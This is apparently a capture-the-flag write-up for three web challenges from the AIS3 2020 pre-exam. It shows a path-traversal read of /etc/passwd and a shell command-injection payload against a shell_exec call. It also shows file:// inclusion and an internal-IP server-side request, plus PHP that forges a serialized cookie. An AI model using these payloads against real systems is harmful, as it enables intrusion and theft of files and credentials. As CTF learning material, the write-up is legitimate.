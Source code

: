 # AIS3 pre-exam 2020 write up

:::info
Ranking 4
:::

---


## web

### 🐿️Squirrel

Find an api:
`https://squirrel.ais3.org/api.php?get=/etc/passwd`
Which return /etc/passwd

Try:
`https://squirrel.ais3.org/api.php?get=api.php`
Get the source code

The important part:
```language=php
$file = @$_GET['get']
shell_exec("cat '$file'");
```

Try:
`https://squirrel.ais3.org/api.php?get=';cat /*;'`
Get command injection and get flag

### 🦈Shark

Get source code:
`https://shark.ais3.org/?path=index.php`

Check /etc/hosts:
`https://shark.ais3.org/?path=file:///etc/hosts`

Get flag:
`https://shark.ais3.org/?path=http://172.22.0.2/flag`

### 🐘Elephant

Find source code:
`https://elephant.ais3.org/.git/`

Generate cookie:
```lua=php
class User {
    public $name;
    private $token;

    function __construct($name) {
        $this->name = $name;
        $this->token = [];
    }

    function canReadFlag() {
        return strcmp($flag, $this->token) == 0;
    }
}
$user = new User('ginoah');
$data = base64_encode(serialize($user));
echo $data;
```
